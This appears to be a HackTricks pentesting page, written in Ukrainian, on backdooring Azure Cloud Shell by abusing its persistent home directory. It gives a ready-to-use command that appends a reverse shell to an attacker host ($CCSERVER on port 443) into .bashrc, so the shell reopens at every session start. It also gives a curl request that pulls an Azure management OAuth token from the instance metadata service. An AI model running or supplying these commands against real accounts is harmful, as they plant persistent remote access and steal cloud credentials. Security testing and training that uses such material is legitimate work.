 # Az - Cloud Shell Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Cloud Shell Persistence

Azure Cloud Shell пропонує доступ до командного рядка для управління ресурсами Azure з постійним зберіганням та автоматичною аутентифікацією. Зловмисники можуть скористатися цим, розміщуючи бекдори в постійній домашній директорії:

* **Постійне Зберігання**: Домашня директорія Azure Cloud Shell монтується на спільному файлі Azure і залишається незмінною навіть після завершення сеансу.
* **Скрипти Запуску**: Файли, такі як .bashrc, виконуються автоматично на початку кожного сеансу, що дозволяє для постійного виконання при запуску хмарного терміналу.

Приклад бекдору в .bashrc:
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/$CCSERVER/443 0>&1 &)' >> $HOME/.bashrc
```
Ця задня дверцята може виконувати команди навіть через 5 хвилин після того, як користувач закінчив роботу з хмарною оболонкою.

Додатково запитуйте службу метаданих Azure для отримання деталей екземпляра та токенів:
```bash
curl -H "Metadata:true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" -s
```
{{#include ../../../banners/hacktricks-training.md}}
